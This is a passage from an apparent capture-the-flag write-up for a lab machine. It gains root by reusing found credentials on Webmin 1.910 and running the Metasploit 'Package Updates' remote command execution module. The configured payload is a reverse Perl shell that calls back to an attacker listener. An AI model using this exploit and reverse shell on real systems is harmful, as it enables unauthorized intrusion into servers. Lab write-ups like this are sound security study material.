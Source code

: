 # Getting root

The previous creds also work on the webmin authentication form allowing us to
login an see the webmin version: 1.910.

![webmin dashboard](/media/2020.03/postman_1.png)

The exploit for searchsploit should works.

    :::text
    Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)  | exploits/linux/remote/46984.rb

We import the script in metasploit:

    :::text
    mkdir ~/.msf/modules/exploits/linux/remote
    cp /usr/share/exploitdb/exploits/linux/remote/46984.rb
    updated
    msfconsole

We give to metasploit all the needed information (user, password, IPs) and do
not forget to put the `SSL` parameter to `true`.

    :::text
    msf5 exploit(linux/remote/46984) > show options 

    Module options (exploit/linux/remote/46984):

      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      PASSWORD   computer2008     yes       Webmin Password
      Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
      RHOSTS     10.10.10.160     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      RPORT      10000            yes       The target port (TCP)
      SSL        true             no        Negotiate SSL/TLS for outgoing connections
      TARGETURI  /                yes       Base path for Webmin application
      USERNAME   Matt             yes       Webmin Username
      VHOST                       no        HTTP server virtual host


    Payload options (cmd/unix/reverse_perl):

      Name   Current Setting  Required  Description
      ----   ---------------  --------  -----------
      LHOST  10.10.14.13      yes       The listen address (an interface may be specified)
      LPORT  4444             yes       The listen port


    Exploit target:

      Id  Name
      --  ----
      0   Webmin <= 1.910

Then we run the script. We are directly root on the box and get the flag.

